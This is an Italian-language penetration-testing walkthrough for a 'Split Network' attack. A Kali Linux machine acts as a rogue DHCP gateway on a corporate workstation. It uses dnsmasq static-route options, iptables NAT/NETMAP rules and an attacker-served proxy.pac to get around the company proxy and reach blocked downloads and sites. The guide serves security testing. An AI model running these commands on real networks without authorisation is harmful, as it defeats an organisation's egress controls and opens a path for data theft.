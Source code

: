 In questa sezione sono descritti i diversi step necessari per effettuare uno Split Network.

Il Rouge DHCP Server Gateway può essere impostato mediante l’utilizzo di una macchina Kali Linux connessa ad Internet.

Per iniziare il test, collegare il client/workstation dell’utente alla rete aziendale all’interno di un ufficio (No VPN), successivamente mettere in collegamento la macchina Kali Linux al client dell’utente (ad esempio mediante cavo Ethernet o rogue hotspot WiFi o altro) e assicurarsi che la Kali Linux sia connessa ad Internet (ad esempio mediante WiFi Tethering da smartphone).

Sul terminal del client dell’utente, digitando:
```
ipconfig
```
dovremmo osservare una ulteriore interfaccia di rete.

Sul client dell’utente assicurarsi inizialmente che le misure di sicurezza implementate funzionino correttamente, ad esempio da browser, se si tenta di scaricare l'eseguibile di Nmap, si ottiene un messaggio di errore da parte del proxy che blacklista la nostra richiesta.

Allo stesso modo, se provassimo ad effettuare il download mediante cURL da terminale:
```
C:
cd Users\Public\Downloads
curl -o nmap.exe https://nmap.org/dist/nmap-7.94-setup.exe
```
otteniamo sempre un errore.

Abbiamo due scenari di attacco:
* Routing di una specifica sottorete (ad esempio relativa ad nmap.org) verso la macchina Kali Linux al fine di effettuare il download dell’eseguibile bloccato. Questo può essere effettuato NON tramite browser perché il browser passa attraverso il proxy aziendale;
* Routing della connessione relativa proxy aziendale verso la macchina Kali Linux. In questo caso è possibile accedere a tutte le risorse esterne che normalmente sarebbero bloccate. In questo scenario, non è possibile accedere contemporaneamente alla rete aziendale.

Questi scenari non sono applicabili nel caso in cui la VPN sia attiva perché essa ignora la routing table impostata.

## Scenario 1: Routing di una specifica sottorete
Per procedere al test, sulla macchina Kali Linux, supponiamo di aver connesso tale endpoint al client utente mediante cavo Ethernet. Sul terminale di Kali Linux, digitando:
```
ifconfig
```
dovremmo avere le informazioni relative all’interfaccia della porta Ethernet (i.e., eth0) ma senza un indirizzo IP. Di conseguenza, dobbiamo assegnarne uno, mediante:
```
sudo ifconfig eth0 192.168.230.1 up
```
Abilitare l’IP forwarding:
```
echo 1 | sudo tee /proc/sys/net/ipv4/ip_forward
```
Successivamente, supponendo che la macchina Kali Linux sia connessa mediante WiFi ad una rete (i.e., Tethering su smartphone), è necessario implementare una regola di Network Address Translation (NAT) sulla tabella NAT di iptables, mediante:
```
sudo iptables -t nat -A POSTROUTING -s 192.168.230.0/24 -o wlan0 -j MASQUERADE
```
Questo comando crea una regola che è progettata per gestire il traffico in uscita dalla rete locale con indirizzi IP nella gamma 192.168.230.0/24 attraverso l'interfaccia wireless wlan0 (interfaccia di rete mediante la quale la macchina è connessa ad Internet). L'azione specificata è MASQUERADE, che consente di nascondere gli indirizzi IP interni dietro l'indirizzo IP pubblico dell'interfaccia di uscita, facilitando così la condivisione di una singola connessione Internet con più dispositivi sulla rete locale. In sostanza, il comando supporta la condivisione della connessione Internet sulla rete locale attraverso la traduzione degli indirizzi IP.

Per verificare che la regola sia stata effettivamente creata, digitare:
```
sudo iptables -t nat -L
```
Ora, è necessario rendere la macchina Kali Linux un DHCP server che ha l’obiettivo di andare a scrivere la routing table della macchina vittima. Nella routing table andremo a scrivere una regola che forzerà la connessione verso una rete specifica di andare verso Internet attraverso la Kali Linux. La sottorete per il nostro test appartiene a nmap.org in modo da effettuare il download dell’eseguibile generalmente bloccato.
```
sudo dnsmasq --no-daemon --log-queries --log-dhcp --interface=eth0 --dhcp-authoritative --dhcp-range=192.168.230.100,192.168.230.200,1h --dhcp-option=option:router --dhcp-option=option:classless-static-route,45.33.49.0/24,192.168.230.1
```
Una volta applicato il comando, è possibile effettuare il download dell’eseguibile dal client dell’utente esclusivamente mediante terminale (i.e., curl) perché il browser è forzato ad utilizzare il proxy aziendale:
```
curl -o nmap.exe https://nmap.org/dist/nmap-7.94-setup.exe
```
Se dnsmasq sembra non produrre tante linee di output, è probabile che, in Kali Linux, NetworkManager ovvero lo strumento che gestisce le connessioni in Linux, possa aver automaticamente resettato le impostazioni effettuate sull’interfaccia eth0. Prima di tutto controllare se un indirizzo IPv4 è assegnato:
```
ifconfig eth0
```
Se sì, e si è connessi mediante Ethernet/USB tra la macchina Kali Linux e il client dell’utente, rimuovere e reinserire il cavo Ethernet/USB.
Se no, riassegnare l’indirizzo IP sul terminale della Kali Linux:
```
sudo ifconfig eth0 192.168.230.1 up
```
e controllare se la regola del POSTROUTING sulla iptables NAT è ancora inserita, come mostrato sopra. Successivamente, rimuovere e reinserire il cavo Ethernet/USB. Infine, rieseguire il comando dnsmasq come sopra.

Assicurarsi anche che la IP table non abbia delle regole impostate in precedenza che possano impattare il test.

## Scenario 2: Routing della connessione relativa al proxy aziendale
Il primo passo è ottenere l’indirizzo IP del proxy. Andare nelle impostazioni proxy del client Windows e identificare il campo dove è riportato l’URL del proxy.pac, ad esempio: http://url-proxy.yourdomain.net/proxy.pac.
Recuperare l’indirizzo IP relativo a url-proxy.yourdomain.net mediante il comando ping per ottenere il relativo indirizzo IP.

Per procedere al test, sulla macchina Kali Linux, supponiamo di aver connesso tale endpoint al client utente mediante cavo Ethernet. Sul terminale di Kali Linux, digitando:
```
ifconfig
```
dovremmo avere le informazioni relative all’interfaccia della porta Ethernet (i.e., eth0) ma senza un indirizzo IP. Di conseguenza, dobbiamo assegnarne uno, mediante:
```
sudo ifconfig eth0 192.168.230.1 up
```
Abilitare l’IP forwarding:
```
echo 1 | sudo tee /proc/sys/net/ipv4/ip_forward
```
Successivamente, supponendo che la macchina Kali Linux sia connessa mediante WiFi ad una rete (i.e., Tethering su smartphone), è necessario implementare una regola di Network Address Translation (NAT) sulla tabella NAT di iptables, mediante:
```
sudo iptables -t nat -A PREROUTING -d <IP-address-proxy>/32 -j NETMAP --to 192.168.230.1/32
```
Questo comando crea una regola che è progettata per mappare il traffico destinato all'indirizzo IP del proxy al nuovo indirizzo IP 192.168.230.1 nella fase di prerouting della tabella NAT.

Per verificare che la regola sia stata effettivamente creata, digitare:
```
sudo iptables -t nat -L
```
Se necessario, assicurarsi che regole che potrebbero causare problemi siano rimosse, mediante i seguenti comandi di esempio, il primo per avere la lista delle regole, e il secondo per eliminare la regola di interesse:
```
sudo iptables -t nat -S
sudo iptables -t nat -D POSTROUTING -s 192.168.230.0/24 -o wlan0 -j MASQUERADE
```
Ora, è necessario rendere la macchina Kali Linux un DHCP server che ha l’obiettivo di andare a scrivere la routing table della macchina vittima. Nella routing table andremo a scrivere una regola che forzerà ogni connessione verso il proxy aziendale verso la Kali Linux, dove esponiamo un HTTP server contenente il proxy.pac dell’attaccante.

Prima di tutto, creiamo il proxy.pac dell’attaccante in Kali Linux:
```
mkdir proxy
nano proxy.pac
```
e inseriamo il seguente contenuto:
```
function FindProxyForURL(url, host) {
    return "PROXY url-proxy.yourdomain.net:8080";
}
```
Successivamente, all’interno della cartella proxy che abbiamo creato, contenente il file proxy.pac, eseguire un HTTP service:
```
sudo python3 -m http.server 80
```
Se preferibile, è possibile intercettare le richieste in Burpsuite abilitando l’interception sull’interfaccia eth0 (o quella in utilizzo per il test).

Disconnettere e riconnettere il cavo che collega Kali Linux con il client utente, aprire un nuovo terminale ed eseguire:
```
sudo dnsmasq --interface=eth1 --port=0 --no-daemon --log-dhcp --dhcp-range=192.168.230.100,192.168.230.200,1h --dhcp-option=option:router --dhcp-option=option:classless-static-route,<IP-address-proxy>/24,192.168.230.1
```
Una volta applicato il comando, verificare sul client dell’utente che tramite browser è possibile navigare su Internet e che è possibile accedere a servizi che generalmente sono bloccati (ad esempio dropbox.com). In questo scenario, è possibile accedere ad Internet ma non è possibile accedere alla rete aziendale. In caso di necessità, disconnettere il cavo che collega Kali Linux al client dell’utente e l’accesso alla rete aziendale e nuovamente disponibile. Riconnetterlo, per avere nuovamente libero accesso alle risorse bloccate in Internet.

Se dnsmasq sembra non produrre tante linee di output, è probabile che, in Kali Linux, NetworkManager ovvero lo strumento che gestisce le connessioni in Linux, possa aver automaticamente resettato le impostazioni effettuate sull’interfaccia eth0. Prima di tutto controllare se un indirizzo IPv4 è assegnato:
```
ifconfig eth0
```
Se sì, e si è connessi mediante Ethernet/USB tra la macchina Kali Linux e il client dell’utente, rimuovere e reinserire il cavo Ethernet/USB.
Se no, riassegnare l’indirizzo IP sul terminale della Kali Linux:
```
sudo ifconfig eth0 192.168.230.1 up
```
e controllare se la regola del POSTROUTING sulla iptables NAT è ancora inserita, come mostrato sopra. Successivamente, rimuovere e reinserire il cavo Ethernet/USB. Infine, rieseguire il comando dnsmasq come sopra.

Assicurarsi anche che la IP table non abbia delle regole impostate in precedenza che possano impattare il test.
